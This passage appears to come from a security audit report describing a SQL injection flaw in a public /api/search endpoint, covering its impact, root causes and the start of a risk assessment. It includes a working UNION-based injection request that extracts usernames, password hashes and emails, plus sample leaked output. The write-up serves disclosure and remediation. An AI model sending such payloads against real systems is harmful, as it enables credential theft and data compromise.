 
An attacker can inject SQL commands by crafting malicious search terms, allowing:
- Data exfiltration via UNION-based injection
- Data modification or deletion via stacked queries
- Potential privilege escalation to database admin
- Operating system command execution (if PostgreSQL is misconfigured)

### Root Cause

The vulnerability exists because:
1. User input is trusted without validation
2. String interpolation is used instead of parameterized queries
3. No input sanitization or escaping is performed
4. The endpoint is public (no authentication required)

---

## Proof of Concept

### HTTP Request

```http
GET /api/search?q=test' UNION SELECT user, password, email, '1', '1' FROM users-- HTTP/1.1
Host: mywebapp.com
```

### Expected vs. Actual Behavior

**Expected** (Secure Behavior):
```
Returns products matching "test' UNION..."
(Treats entire string as literal search term)
```

**Actual** (Vulnerable Behavior):
```
Returns union of products + all user credentials:
{
  "results": [
    {"name": "Test Product", ...},
    {"name": "admin", "description": "$2b$10$abcd...", "category": "admin@example.com", ...},
    {"name": "user1", "description": "$2b$10$xyz...", "category": "user1@example.com", ...},
    ...
  ]
}
```

Successfully exfiltrates all usernames, password hashes, and emails from users table.

---

## Risk Assessment

### CVSS v3.1 Score

